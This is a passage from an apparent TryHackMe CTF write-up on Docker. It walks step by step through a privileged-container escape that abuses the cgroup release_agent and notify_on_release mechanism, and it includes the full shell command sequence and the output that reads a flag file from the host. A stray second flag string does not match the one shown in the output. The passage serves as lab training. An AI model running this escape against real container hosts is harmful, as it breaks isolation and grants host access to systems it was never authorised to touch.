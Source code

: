9.4.2. For our exploit to execute, we'll need to tell Kernel to run our code. By adding "1" to "/tmp/cgrp/x/notify_on_release", we're telling the kernel to execute something once the "cgroup" finishes. ([Paul Menage., 2004](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt))

9.4.3. We find out where the containers files are stored on the host and store it as a variable

9.4.4. Where we then echo the location of the containers files into our "/exploit" and then ultimately to the "release_agent" which is what will be executed by the "cgroup" once it is released.

9.4.5. Let's turn our exploit into a shell on the host

9.4.6. Execute a command to echo the host flag into a file named "flag.txt" in the container, once "/exploit" is executed

9.4.7. Make our exploit executable!

9.4.8. We create a process and store that into "/tmp/cgrp/x/cgroup.procs"

9.5. Loot:

![](https://assets.tryhackme.com/additional/docker-rodeo/privileged-container/exploit1.png)

Logging into the new Instance as "root" and executing the code snippet, resulting in container escape.

![](https://assets.tryhackme.com/additional/docker-rodeo/privileged-container/exploit2.png)

Showing that the command we executed (/exploit) has grabbed the file from the host operating system.

Contents of "flag.txt" from the host operating system

```
root@8a9427527c82:~# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
root@8a9427527c82:~# echo 1 > /tmp/cgrp/x/notify_on_release
root@8a9427527c82:~# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@8a9427527c82:~# echo "$host_path/exploit" > /tmp/cgrp/release_agent
root@8a9427527c82:~# echo '#!/bin/sh' > /exploit
root@8a9427527c82:~# echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
root@8a9427527c82:~# chmod a+x /exploit
root@8a9427527c82:~# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
root@8a9427527c82:~# cd /
root@8a9427527c82:/# ls
bin  boot  dev  etc  exploit  flag.txt  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@8a9427527c82:/# cat flag.txt 
thm{you_escaped_the_chains}
root@8a9427527c82:/# 
```

`thm{you_escaped_the_chains12**123:))}`

## Task 12 10. Securing Your Container

Let's reflect back on the vulnerabilities that we have exploited. Not only have we learnt about the technology that is containerization, but also how these containers are a mere abstraction of the host's operating system.
